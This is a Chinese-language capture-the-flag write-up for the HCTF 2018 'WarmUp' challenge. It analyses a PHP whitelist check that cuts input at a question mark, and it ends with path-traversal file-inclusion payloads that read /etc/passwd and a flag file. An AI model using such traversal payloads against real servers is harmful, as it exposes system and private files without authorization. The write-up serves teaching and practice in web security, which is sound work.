 ```yaml
---
title: HCTF 2018  WarmUp
date: 2024-09-12 12:50:19
permalink: /pages/36ca45/
sidebar: false
article: false
---
```


## 审计

打开源码，跟着提示到source.php页面。一个文件包含的漏洞，页面源码大致内容是传参$file,它的值只能是白名单文件`source.php,hint.php`

在题目里出现了陌生的函数，没有耐心看下去。如果清楚这些函数在做什么就好做了


::: tip
in_array($a,$array);，检查变量`$a`是否在数组`$array`里  
mb_substr($text, 5, 2);  ，从字符串`$text`的第5个字符开始，截取2个字符
mb_strpos($abc,$data); PHP 中的一个多字节字符串函数，用于查找一个字符串参数`$abc`在另一个字符串参数`$data`中第一次出现的位置。  
:::

## 分析

```php
$whitelist = ["source"=>"source.php","hint"=>"hint.php"];
if (! isset($page) || !is_string($page)) {
    echo "you can't see it";
    return false;
}

if (in_array($page, $whitelist)) {
    return true;
}
```

定义白名单，先检查是否传递参数，传递的参数类型，再检查参数的值是否在白名单里。在白名单直接结束并返回true，不在白名单继续往下走

```php
$_page = mb_substr(
    $page,
    0,
    mb_strpos($page . '?', '?')
);
if (in_array($_page, $whitelist)) {
    return true;
}
```

给`$page`变量值拼接了一个问号，检查问号第一次出现的位置，截取问号前面的字符串，赋值给新变量，再检查新变量是否在白名单里。(如果原本没有问号，会加上问号获取整个变量值，如果已经有了问号，会截取问号之前的值，检查是否符合)

```php
 $_page = urldecode($page);
$_page = mb_substr(
    $_page,
    0,
    mb_strpos($_page . '?', '?')
);
if (in_array($_page, $whitelist)) {
    return true;
}
echo "you can't see it";
return false;
```

第二次机会，给参数url解码一次，添加问号，截取问号之前的值，再进行一次白名单检查，如果截取后，还在白名单里，这个参数他就认了，还不在，那就丢弃这个参数了

总结：两次判断，贴心的补充了一次url解码的情况，判断用户输入错误的情况，增加程序的健壮性导致的漏洞？

## 解题

给参数一个白名单的值，再手动补充一个问号，页面通过判断file值里问号前的值是否是白名单的值来判断是否合法，合法程序就会接受整个参数的值传入`include`函数里包含

页面里`include $_REQUEST['file'];`存在文件包含漏洞，当前应该在/var/www/html/的目录下，四次`../`可以回到根目录回到根目录`../../../../`

`include(hint.php?/../../../../etc/passwd)`把`hint.php?`当作一个目录(linux支持目录名含有一些特殊字符)

```txt
?file=hint.php?/../../../../etc/passwd
```

![warmup](https://the0n3.top/medias/daily/warmup/1.png)

包含flag文件

```txt
?file=hint.php?/../../../../ffffllllaaaagggg
```